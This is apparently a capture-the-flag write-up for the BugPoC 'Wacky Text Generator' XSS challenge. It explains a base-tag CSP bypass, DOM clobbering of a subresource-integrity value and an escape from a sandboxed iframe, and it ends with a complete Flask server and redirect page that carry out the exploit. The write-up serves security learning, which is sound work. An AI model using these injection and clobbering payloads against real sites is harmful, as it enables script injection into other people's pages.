




# Bugpoc XSS Challenge

<center></center>

So we are given a website **Wacky Text Generator**. Its functionality is so simple, It'll just add some styles to the text that we enter. And we aim to trigger XSS on https://wacky.buggywebsite.com/..

<center></center>

This website will first replace/remove some characters from our input and loads into an iframe with some styles.


```js
	
	document.getElementById("txt").onkeyup = function(){
		this.value = this.value.replace(/[&*<>%]/g, '');
	};


	document.getElementById('btn').onclick = function(){
		val = document.getElementById('txt').value;
		document.getElementById('theIframe').src = '/frame.html?param='+val;
	};
```

So this looks impossible to execute javascript here in the main page,as we can't inject the tags. 
Then I thought of looking at the source code of frame.html which is loaded into an iframe, But It'll throw an error If u directly try to open frame.html.

```js
// verify we are in an iframe
	if (window.name == 'iframe') { .. }
	else {
		This page can only be viewed from an iframe.	
		}

```

So by setting `window.name` to `iframe` will open the page normally.

## Observation-1

- Our input is being reflected in two locations.One is sanitized and handled properly but the other is not.

URL -> `https://wacky.buggywebsite.com/frame.html?param=</title><h1>Welcome</h1>`

```html

		<title>
			</title><h1>Welcome</h1>
		</title>
                 .......
                 .......


		<div role="main">
			<p class="text" data-action="randomizr">&lt;/title&gt;&lt;h1&gt;Welcome&lt;/h1&gt;</p>
		</div>


```
<center></center>

Though our input is directly reflected in the website, we can't trigger alert because of CSP :(  . 


#### CSP POLICY:

```content-security-policy: script-src 'nonce-zhqdksxgbgxi' 'strict-dynamic'; frame-src 'self'; object-src 'none';```

### CSP Bypass

Ways to bypass (AFAIK):

- We can take advantage of the missing Base-URI policy.(https://csp-evaluator.withgoogle.com/)
  ```
   base-uri directive restricts the URLs which can be used in a document's <base> element. 
   If this value is absent, then any URI is allowed.

  ```
- As the server is using a nonce, we can brute force nonce character by character with CSS Selector.
      (https://sirdarckcat.blogspot.com/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)

I chose to go with the first idea to bypass CSP.

<center></center>

## Observation-2

- Directly injecting `javascript: alert(1);` into the base tag will throw an error.So then I set up my ngrok server and added it to the base tag.

  `https://wacky.buggywebsite.com/frame.html?param=</title><base href="mywebsite.com">`

- Website will now  make a GET request to my server for `/files/analytics/js/frame-analytics.js` file. 

```js


	window.fileIntegrity = window.fileIntegrity || {
		'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
		'algorithm' : 'sha256',

	------>	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',	<------

		'creationtime' : 1602687229
	}

	// verify we are in an iframe
	if (window.name == 'iframe') {

		// securely load the frame analytics code
		if (fileIntegrity.value) {

			// create a sandboxed iframe
			analyticsFrame = document.createElement('iframe');

	------>		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');	<------

			analyticsFrame.setAttribute('class', 'invisible');
			document.body.appendChild(analyticsFrame);

			// securely add the analytics code into iframe
			script = document.createElement('script');

	------>		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');		<------
	------>		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);		<------

			script.setAttribute('crossorigin', 'anonymous');
			analyticsFrame.contentDocument.body.appendChild(script);

		}

	} else {   ...	}

```

- Though the file is being accessed by website,It won't gets included into the website.

```
Failed to find a valid digest in the 'integrity' attribute for resource 
'https://mywebsite.com/files/analytics/js/frame-analytics.js' with computed SHA-256 integrity 
'b3pcMvbma5BHZlKcTi3hBoHNc2EPbt/kbcXvw8hiSIA='. The resource has been blocked.
```

This is because of Subresource Integrity (<a href="https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity">SRI</a>).
For every file there will be an unique digest.But in this case a digest is already declared. 


```js
		window.fileIntegrity = window.fileIntegrity || {
			'algorithm' : 'sha256',

		------>	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',	<------
		}
```

For our file the digest is different.We need to find a way to tamper the value.So here comes the <a href="https://portswigger.net/web-security/dom-based/dom-clobbering">DOM clobbering</a>.

We can modify the `fileIntegrity` value with DOM clobbering.

`https://wacky.buggywebsite.com/frame.html?param=</title><base href="https://e036358270fe.ngrok.io"><button id="fileIntegrity" value="My Integrity Value">`.

So with this we can include our js file to the website.

## Observation-3

`Ignored call to 'alert()'. The document is sandboxed, and the 'allow-modals' keyword is not set.`

- Through our file loaded into the website we can't alert :(. This is because our js is loaded into a sandboxed iframe.
  ```
			// create a sandboxed iframe
			analyticsFrame = document.createElement('iframe');

	------>		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');	<------

			analyticsFrame.setAttribute('class', 'invisible');
			document.body.appendChild(analyticsFrame);
  ```

- To use `alert`,`prompt`,`print`,`confirm` inside the sandboxed iframe we need to set `allow modals`dialogs.
  (https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)

- So finally I thought of leaving iframe and pop an alert on main window (i.e, `window.top.document`) and boom It worked :).

<center></center>

## Exploit 

### Server.py
```python
from flask import Flask,request,render_template


app = Flask(__name__)
app.debug =1 

@app.after_request
def add_security_headers(resp):

	resp.headers["Cache-Control"] = "no-cache, no-store, must-revalidate"
	resp.headers["Pragma"] = "no-cache"
	resp.headers["Expires"] = "0"
	resp.headers['Cache-Control'] = 'public, max-age=0'

	resp.headers["Access-Control-Allow-Origin"] = "*"

	return resp


@app.route("/files/analytics/js/frame-analytics.js")
def fetch():
	return 'window.top.alert(document.domain);'


@app.route("/")
def main():
	return render_template("main.html")

app.run()
```
### main.html

```html
<!DOCTYPE html>
<html>
<head>
	<title>Testing</title>
</head>
<body>
	<script type="text/javascript">
		window.name="iframe";
		window.location="https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20href=%22https://myWebsite.com/%22%3E%3Cinput%20id=%27fileIntegrity%27%20name=%27fileIntegrity%27%20value=%222REYBEpWCfiE3FQSg0qjlIYCIhXz5XEqOj%2BbHIyGrgU=%22%3E"
	</script>

</body>
</html>
```
